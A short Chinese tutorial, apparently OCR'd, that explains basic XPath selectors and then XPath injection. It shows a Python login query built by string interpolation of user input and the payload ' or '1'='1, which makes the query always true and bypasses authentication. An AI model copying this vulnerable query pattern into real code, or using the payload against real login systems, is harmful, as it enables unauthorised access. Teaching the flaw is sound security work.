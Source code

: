 查询如下

```xml
/bookstore/book                    # 选择所有书籍
//title                           # 选择所有标题
/bookstore/book[1]                # 选择第一本书
//book[@category='fiction']       # 选择类别为fiction的书
//book[price>30]                  # 选择价格大于30的书
//book/title/text()               # 选择所有书籍标题的文本内容
//@category                       # 选择所有category属性
```



## Xpath 注入
原理如下

接受参数`username`和`password`

```python
# 用户输入
username = input("username")
password = input("password")

# 构造 XPath 查询
query = f"//user[username/text()='{username}' and password/text()='{password}']"

# XML 示例数据
<users>
    <user>
        <username>admin</username>
        <password>admin123</password>
    </user>
</users>

```

重点在于查询语句

```python
query = f"//user[username/text()='{username}' and password/text()='{password}']"
```

如果我们巧妙构造

```python
用户名：' or '1'='1
密码：' or '1'='1
```

然后查询语句就如下

```python
//user[username/text()='' or '1'='1' and password/text()='' or '1'='1']
```

 恒为真，匹配到所有用户，造成 **认证绕过**！   恒为真，匹配到所有用户，造成 **认证绕过**！  
